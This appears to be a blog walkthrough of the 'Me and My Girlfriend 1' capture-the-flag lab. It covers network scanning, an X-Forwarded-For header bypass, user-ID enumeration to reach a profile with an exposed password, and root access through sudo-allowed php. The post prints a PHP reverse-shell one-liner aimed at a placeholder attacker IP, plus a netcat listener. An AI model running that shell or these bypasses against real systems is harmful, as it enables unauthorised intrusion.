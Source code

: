 ```yaml
---
title: "Me and My Girlfriend 1 Writeup"
date: 2020-02-16T19:09:19+11:00
description: "Writeup for Me and My Girlfriend 1 box"
draft: false
displayInLine: true
displayInMenu: true
draft: false
---
```


# Me and My Girlfriend Write-up 1

For this box, the overall objective is the break into Alice's account, find her secret (flag1.txt) and then gain root access (flag2.txt). When booting up the VM your greeted with a standard ubuntu login. Since no SQL injections work on this login, I need to find the IP of this machine to begin an NMAP scan.

To do this, I use the following command on my kali machine:

    netdiscover -r 192.168.220.0
    
    # -r = range of ips

This will allow me to detect any IP that exists in this range.

<figure>
<img src="/img/meand.png" >
<figcaption>
*Result of the netdiscover command*
</figcaption>
</figure>

As seen there are 4 IPs shown, only one of these is the IP of the Alice machine. since *.1* and *.254* are the network and broadcast IP respectively, these leaves *.156* and *.2* but *.2* is most likely the gateway address.

I can further test this by performing and NMAP scan on the IP 192.168.220.156.

    nmap -A 192.168.220.156

<figure>
<img src="/img/Untitled one.png" >
<figcaption>
*NMAP results*
</figcaption>
</figure>

Boom so now I know that there are 2 open ports I can use. But one of them being port 80 with an apache version shows that there's a website. So now I'm going to see if I can access the website normally.

<figure>
<img src="/img/Untitled 2.png" >
<figcaption>
*Viewed website on port 80*
</figcaption>
</figure>

So we are greeted with this kind message telling that the site can only be accessed locally. So lets see if theres anything else.

<figure>
<img src="/img/Untitled 3.png" >
<figcaption>
*Results in inspector*
</figcaption>
</figure>

There's a comment here saying that we should look up how to use x-forwarded-for

<figure>
<img src="/img/Untitled 4.png" >
<figcaption>
*Search results for X-Forwarded-For*
</figcaption>
</figure>

So what we've gathered is that X-Forwarded-For is a HTTP header field. So from this lets have a look at the header field for the website by using **Burp Suite**

So before setting it up I have to make the necessary changes to Firefox

<figure>
<img src="/img/Untitled 5.png" >
<figcaption>
*Configuration for Burp Suite*
</figcaption>
</figure>

<figure>
<img src="/img/Untitled 6.png" >
</figure>

<figure>
<img src="/img/Untitled 7.png" >
</figure>

- So we have to change the proxy setting in Firefox to be the same as the proxy listener in Burp Suite. By going to the bottom of preferences in Network Proxy and changing the configure proxy to manual and inputting the HTTP Proxy as the same IP and Port: *127.0.0.1 8080 .*

Now that this is configured we can refresh the page and capture the page.

<figure>
<img src="/img/Untitled 8.png" >
<figcaption>
*Captured results from the page*
</figcaption>
</figure>

So once we captured it, we can see the data it is able to capture in the refresh. If we navigate to headers we can see what information the headers have.

<figure>
<img src="/img/Untitled 9.png" >
</figure>

This is the header info for the site. So if we were to insert the X-Forwarder-For somewhere we should able to access local. 

<figure>
<img src="/img/Untitled 10.png" >
<figcaption>
*Configuring Burp options to input the X-Forwarded-For header*
</figcaption>
</figure>
Inserting that should allow us to gain access to local given the two hints.

    X-Forwarded-For: localhost

<figure>
<img src="/img/Untitled 11.png" >
<figcaption>
*Header inputted*
</figcaption>
</figure>

<figure>
<img src="/img/Untitled 12.png" >
<figcaption>
*Resulting change from header addition*
</figcaption>
</figure>

Perfect, I gained access to the proper page. Now let’s have a look around.

There was nothing of notability so now I’m going to register to see if there anything else.

<figure>
<img src="/img/Untitled 13.png" >
<figcaption>
*Homepage dashboard*
</figcaption>
</figure>

Now that I've registered I'm going to look around for potential clues.

<figure>
<img src="/img/Untitled 14.png" >
<figcaption>
*Registered as a user, then played around with the user_id in URL*
</figcaption>
</figure>

I started playing around with the user_id in the url to see if it changes anything. and so it does. Now im just going to input random numbers and see where it goes.

<figure>
<img src="/img/Untitled 15.png" >
<figcaption>
*Found Alice account*
</figcaption>
</figure>

Bingo, Alice. Now that we found her profile, we need to find out the password.

<figure>
<img src="/img/Untitled 16.png" >
<figcaption>
*Source-code showing her password*
</figcaption>
</figure>v

In the source code we’ve got the username and password,

    alice
    4lice3

Now to use this password on the Alice machine.

<figure>
<img src="/img/Untitled 17.png" >
<figcaption>
*Logging into her account on the machine*
</figcaption>
</figure>

Were in, now lets dig in and find the flag

<figure>
<img src="/img/Untitled 18.png" >
<figcaption>
*Secret and Flag 1 found*
</figcaption>
</figure>
So now we've got the first flag within a hidden file. Now we need to get root access to get the second flag.

So I didn't know where to go from here so I tried to find out what sudo command that Alice can use.

<figure>
<img src="/img/Untitled 19.png" >
<figcaption>
*Looked at what sudo command the user Alice can execute*
</figcaption>
</figure>
    sudo -l
    -l = list of If no command is specified, list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

Using the above command, I can determine that the Alice user can use the following command as root:

    /usr/bin/php

Now I need to figure a way to exploit this to gain root access.

After doing some researching into it, I found a cheat sheet for reverse shells and found this command:

    php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'

This alongside netcat should allow me to gain access through the kali machine using the following command

    nc -nvlp 80

<figure>
<img src="/img/Untitled 20.png" >
<figcaption>
*Kali machine listening on port 5050*
</figcaption>
</figure>
<figure>
<img src="/img/Untitled 21.png" >
<figcaption>
*Executing the exploit on Alice machine*
</figcaption>
</figure>
<figure>
<img src="/img/Untitled 22.png" >
<figcaption>
*Kali machine connected to the opening and viewed what user I was*
</figcaption>
</figure>
Boom now I'm root, now I just need to navigate to the second flag.

<figure>
<img src="/img/Untitled 23.png" >
<figcaption>
*Viewed flag2 as root*
</figcaption>
</figure>
